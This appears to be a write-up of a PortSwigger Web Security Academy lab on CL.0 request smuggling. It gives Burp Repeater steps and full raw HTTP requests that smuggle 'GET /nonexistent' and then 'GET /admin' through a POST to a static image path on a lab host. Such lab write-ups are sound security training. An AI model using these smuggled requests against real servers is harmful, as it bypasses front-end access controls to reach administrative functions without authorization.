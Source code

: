 Title: CL.0 request smuggling
Level: PRACTITIONER
Desc:  This lab is vulnerable to CL.0 request smuggling attacks. The back-end server ignores the Content-Length header on requests to some endpoints.
To solve the lab, identify a vulnerable endpoint, smuggle a request to the back-end to access to the admin panel at /admin, then delete the user carlos.

# Walkthrough:
Finding endpoint vulnerable to CL.0 :
1. add 2 same GET requests to repeater
2. add those request to group and set send option as "send group single connection"
3. change First request: change method to POST, add `Connection: keep-alive` add Content-Length header with proper value and add 2 lines as body `GET /nonexistent HTTP/1.1` AND `Foo: x`

When the second response is 404 Not Found that means that we have found vulnerable endpoint.

<img width="1267" height="473" alt="image" src="https://github.com/user-attachments/assets/4c821a0f-de82-4edd-a38f-4cc084bb03c1" />
<img width="1218" height="448" alt="image" src="https://github.com/user-attachments/assets/f6646474-52d6-4ad7-b8ca-fc370522b79e" />

First request: 
```
POST /resources/images/blog.svg HTTP/2
Host: 0a850074042e7ab987bf0728005f009e.web-security-academy.net
Cookie: session=ETGMcRJnH5I6UecsJGDFw8SS7VYp0vz5
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a850074042e7ab987bf0728005f009e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

GET /nonexistent HTTP/1.1
Foo: x
```

Second request:
```
GET /resources/images/blog.svg HTTP/2
Host: 0a850074042e7ab987bf0728005f009e.web-security-academy.net
Cookie: session=ETGMcRJnH5I6UecsJGDFw8SS7VYp0vz5
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a850074042e7ab987bf0728005f009e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i


```


Exploitation:
It is easy, you just change body of first request: 
```
POST /resources/images/blog.svg HTTP/2
Host: 0a850074042e7ab987bf0728005f009e.web-security-academy.net
Cookie: session=ETGMcRJnH5I6UecsJGDFw8SS7VYp0vz5
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Sec-Ch-Ua-Platform: "Linux"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a850074042e7ab987bf0728005f009e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=2, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

GET /admin HTTP/1.1
Foo: x
```





